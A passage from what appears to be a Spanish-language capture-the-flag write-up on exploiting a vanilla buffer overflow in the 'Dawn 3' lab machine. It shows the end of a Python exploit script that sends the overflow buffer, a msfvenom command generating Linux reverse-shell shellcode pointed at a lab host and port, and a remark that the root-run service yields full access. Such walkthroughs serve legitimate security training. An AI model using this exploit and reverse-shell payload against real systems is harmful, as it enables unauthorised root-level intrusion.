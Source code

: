 ```python
print("Sending payload")
s.send(buffer)
s.close()
```

Como la máquina final que se debe explotar es un Linux, se deberá generar una nueva shellcode:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.212 LPORT=9001 -f c -b '\x00' EXITFUNC=thread
```

Como el servicio ya está siendo ejecutado como root se obtendrá acceso total a la máquina.

<p align="center"><img src="https://raw.githubusercontent.com/alexfrancow/alexfrancow.github.io/master/images/2021-07-25-Dawn-3-Vanilla-Buffer-Overflow/Pasted%20image%2020210725184438.png" height="500" width="825" /></p>

